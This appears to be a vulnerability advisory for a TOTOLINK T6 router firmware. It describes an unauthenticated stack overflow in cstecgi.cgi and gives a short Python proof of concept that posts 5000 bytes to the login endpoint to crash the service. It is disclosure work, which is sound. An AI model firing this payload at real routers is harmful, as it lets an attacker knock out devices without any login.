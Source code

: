 # TOTOlink T6(V4.1.9cu.5241_B20210923) router has buffer overflow vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html

## Affected Version
V4.1.9cu.5241_B20210923
## Vulnerability Analysis
The following image displays the code for a stack overflow vulnerability in the `main` function of `cstecgi.cgi`. When an attacker accesses `http://ip/cgi-bin/cstecgi.cgi?action=login&flag=1` using the POST method, all data in the `HTTP BODY` will be read into `v10` through `fread` and concatenated to the local variable `v41` using the sprintf function. Due to the lack of length validation by the developer on `v10`, sending an overly long message by the attacker will eventually cause a stack overflow in the program. As this code segment resides at the beginning of the main function, the attacker does not need to undergo any form of authentication.
![Vulnerability](./ida.png)
## POC
```python
import requests
def poc():
    payload = "A"*5000
    requests.post('http://192.168.5.12/cgi-bin/cstecgi.cgi?action=login&flag=1', data=payload)
poc()
```
A SIGSEGV is an error(signal) caused by an invalid memory reference.

![gdb](gdb.png)
